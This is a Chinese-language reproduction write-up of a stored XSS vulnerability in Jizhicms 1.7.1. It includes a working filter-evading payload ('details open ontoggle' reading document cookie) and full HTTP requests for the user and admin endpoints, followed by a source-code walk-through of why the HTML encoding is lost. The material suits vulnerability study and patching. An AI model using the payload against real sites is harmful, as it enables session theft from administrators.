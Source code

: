 Jizhicms 1.7.1 存储XSS漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

首先自己注册一个账户然后登陆，在文章标题处插入XSS payload

    payload:<details open>

![1.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId24.png)

管理员登录后台点击编辑且没有修改里面的字符串就保存的话那便会触发XSS漏洞![2.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId25.png)![3.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId26.png)首先看一下在前台发表文章处的请求数据包

    POST /user/release.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 187
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/user/release.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=&litpic=&description=123&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

根据url定位到release函数![4.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId27.png)该函数主要是先检查是否是登录状态然后检查是否存在违禁词汇，其中违禁词汇取的是webconf\[\'mingan\'\]的值，由前篇文章可知数据存放在数据库中然后通过缓存读取相关信息，可以直接输出一下![5.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId28.png)

    过滤的东西和XSS关系不大，主要是涉及到文章敏感汉字之类的，然后被保存到数据库中的时候<>变成了&lt; &gt;

![6.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId29.png)看下是如何进行操作的，继续跟进该函数，通过frparam函数进行操作之后对title进行赋值![7.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId30.png)frparam函数在获取到相关值后调用format\_param函数对数据进行处理，由于传入的int的值为1.所以对传入的参数进行了html实体编码![8.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId31.png)![9.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId32.png)所以在数据库中存储的是进行过实体编码的xss payload最后登入后台看下编辑函数

    POST /admin.php/Article/editarticle.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 340
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Article/editarticle/id/34.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    go=1&id=34&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&tid=2&seo_title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&hits=0&keywords=&litpic=&file=&description=123&orders=0&tags=&isshow=0&addtime=2020-05-28+17%3A17%3A39&target=&ownurl=&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

看一下数据中的更新情况，又将\< \>变成了\<\>,所以触发了XSS漏洞![10.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId33.png)定位到漏洞函数editarticle，看到同样调用了frparam函数![11.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId34.png)frparam函数由于没有传入参数会直接返回url中的数据![12.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId35.png)在请求包中可以看到是已经将html实体化编码变成了原字符，所以data取到的数据时没有经过html编码的数据![13.png](./resource/Jizhicms1.7.1存储XSS漏洞/media/rId36.png)所以在进行update更新操作的时候就会向数据库写入未经html实体化编码的数据

参考链接
--------

> https://xz.aliyun.com/t/7861
